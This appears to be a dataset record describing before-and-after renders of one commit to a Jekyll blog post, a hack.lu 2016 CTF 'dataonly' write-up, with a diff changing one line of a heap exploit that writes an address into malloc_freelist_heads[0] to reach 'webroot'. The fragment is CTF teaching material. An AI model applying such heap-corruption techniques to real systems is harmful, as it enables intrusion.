

Before and after one commit to mtps3/Mtps3.github.io, a Jekyll site: the page built from _posts/2016-10-20-hacklu-dataonly.md, in a window 1280 px wide and 900 px high, scrolled down 6095 px. Shown: the whole window, without its empty margins (245-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
updated dataonly writeup again with a minimal change

```diff
--- a/_posts/2016-10-20-hacklu-dataonly.md
+++ b/_posts/2016-10-20-hacklu-dataonly.md
@@ -313,7 +313,7 @@ Let's walk through the final exploit:
    # the address we want to write to malloc_freelist_heads[0]
    w_real_addr = p64(velf.symbols['webroot'] - 1)
    # the padding we need so that this is allocated in bin 1
-   w_addr_pad = "X" * (bins[1][0] - strlen(w_real_addr))
+   w_addr_pad = "X" * (16 - strlen(w_real_addr))
    w_addr =  w_addr_pad + w_real_addr
 
    # we want to write to malloc_freelist_heads[0]
```
